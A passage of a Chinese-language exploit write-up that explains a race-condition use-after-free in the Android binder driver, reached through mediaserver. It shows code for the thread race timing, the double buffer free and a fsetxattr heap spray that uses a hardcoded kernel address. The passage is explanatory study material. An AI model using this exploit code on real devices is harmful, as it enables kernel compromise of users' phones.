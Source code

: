 ```
global_parcel_index = replyParcelIndex;
pthread_cond_signal(&alloc_cond);
pthread_mutex_unlock(&alloc_mutex);
usleep(450);
bc_free_buffer(replyParcelIndex);
bc_free_buffer(replyParcelIndex - 1);

```

这里就是条件竞争部分，pthread_cond_signal 唤醒子线程 usleep(450) 这个因为线程 2 通过 binder 进程间通信，让 mediaserver 执行到 BC_REPLY 需要一段时间，先是子线程

```
while(1) 
	{
		pthread_cond_wait(&alloc_cond, &alloc_mutex);
		dataBCArray[global_parcel_index].writeInterfaceToken(String16("android.media.IMediaPlayer"));
                IInterface::asBinder(mediaPlayer)->transact(GET_PLAYBACK_SETTINGS, dataBCArray[global_parcel_index], &replyBCArray[global_parcel_index], 0);
	}
	pthread_mutex_unlock(&alloc_mutex);

```

就是 bc_transaction,br_transaction，bc_reply,bc_transaction,br_transaction 没干什么，主要是 bc_reply,binder_ioctl->binder_thread_write->case BC_reply->bc_transaction->binder_alloc_new_buf 中找适合大小的 binder_buffer, 也就是我们的诱饵 binder_buffer, 而诱饵的 binder_buffer->allow_user_free==1 , 接着进入 narrow window, 此时主线程在干什么

```
bc_free_buffer(replyParcelIndex);
bc_free_buffer(replyParcelIndex - 1);

```

为什么要 binder_alloc_free_buf 两次呢，正如我前面前置知识经过，第一次 bc_free_buffer 会可能 kfree 我们诱饵 binder_buffer 后面的一个无关 binder_buffer, 而对于它前面的 replyParcelIndex - 1 binder_buffer 它的 free 为 0，不会 kfree 合并，(binder_buffer 在虚拟和物理地址上是连续的) ，因而第一次 bc_free_buffer 解除我们诱饵 binder_buffer 的映射，binder_buffer->free = 1, 将诱饵 binder_buffer 的下一个无关 binder_buffer free 掉 (可能)，而第二次 bc_free_buffer 由于已经将我们的诱饵 binder_buffer->free 标为 1，因而 kfree 掉我们的诱饵 binder_buffer, 造成 uaf, 总的来说，第一次 bc_free_buffer 将我们的诱饵 binder_buffer->free = 1, 第 2 次 kfree 掉它

，子线程还在 narrow window，接下来主线程执行堆喷部分

```
#define BUFF_SIZE 96
void heapGuard()
{
	fsetxattr(fd_guard_heap, "user.g", guardBuffer, 1000, 0);
}
void heap_spray()
{
	char buff[BUFF_SIZE];
	memset(buff, 0 ,BUFF_SIZE);
	*(size_t *)((char *)buff + 64) = 20;
	*(size_t *)((char *)buff + 88) = 0xffffffc001e50834;
	fsetxattr(fd_heap_spray, "user.x", buff, BUFF_SIZE, 0);
}

void heap_spray_times()
{
	for (int i = 0; i < HEAP_SPRAY_TIME; i++)
	{
		heap_spray();
		heapGuard();
	}
}
heap_spray_times();
```